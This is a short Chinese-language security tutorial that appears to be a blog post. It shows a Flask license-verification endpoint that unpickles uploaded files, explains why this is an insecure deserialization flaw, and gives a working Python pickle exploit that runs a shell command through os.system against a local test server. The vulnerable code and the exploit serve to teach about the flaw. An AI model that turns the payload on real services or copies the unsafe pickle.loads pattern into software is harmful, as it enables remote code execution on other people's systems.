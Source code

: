 ```
# 验证license
@app.route('/verifyLic', methods=['GET', 'POST'])
def verifyLic():
    if request.files:
        try:
            lic = request.files['lic'].read()
            # 反序列化并解析
            lic = pickle.loads(lic)
            name = tool.decrypt(lic['name'])
            expiry = tool.decrypt(lic['expiry'])
            if int(expiry) > int(datetime.datetime.now().strftime('%Y%m%d%H%M%S')):
                status = '正常'
            else:
                status = '已过期'
            result = f'授权对象: {name}</br>有效时间: {expiry}</br>授权状态: {status}'
        except:
            result = '验证失败'
    else:
        result = ''
    return result


if __name__ == '__main__':
    app.run(host="127.0.0.1", port=8888)


```  
  
通过观察代码可以发现在验证license的环节存在反序列化，并且反序列化的内容通过前端上传二进制获得，也就是内容可控，所以这里就形成了一个简单的反序列化漏洞。  
  
可以使用下面的exp进行命令执行：  
```
import pickle
import os
import requests

class Payload:
    def __reduce__(self):
        return (os.system, ('echo rce > rce.txt',))

serialized = pickle.dumps(Payload())
file = {'lic': ('lic.bin', serialized, 'application/binary')}
res = requests.post('http://127.0.0.1:8888/verifyLic', files=file,proxies={'http':'127.0.0.1:8080'})
print(res.text)


```  
  
执行完后到flask的工作目录查看发现生成了rce.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKEWKquwtEn2xvOTmN20Gec2Df3nJEtLJHayTYpdckdibcxPPtU25rzmA/640?wx_fmt=jpeg&from=appmsg "")  
  